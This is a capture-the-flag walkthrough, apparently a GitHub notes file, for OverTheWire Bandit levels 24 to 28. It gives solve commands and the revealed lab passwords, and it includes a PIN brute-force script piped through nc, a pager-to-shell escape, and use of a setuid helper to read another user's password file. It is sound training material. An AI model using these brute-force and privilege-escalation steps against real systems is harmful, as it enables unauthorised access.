 ## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
chmod +rwx bandit_pass.sh
./bandit_pass.sh
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- Read
	- https://www.geeksforgeeks.org/more-command-in-linux-with-examples/
```bash
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org
#(you have to resize your window until see more command)
#understand how more command works
	:set shell=/bin/bash
	:sh
```
**password**: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

## Level 26 -> 27
### Look ->  ls
#### Solve
- look bandit27-do permissions and understand what should you do!
	- IT'S SO EASY DON'T BE LAZY
```bash
ls -la
./bandit27-do cat /etc/bandit_pass/bandit27
```
**password**: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB


## Level 27 -> 28
### Look ->  git
#### Solve
```bash
mkdir /tmp/bandit_27git
cd /tmp/bandit_27git
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
cd repo
cat README
```
**password**: Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
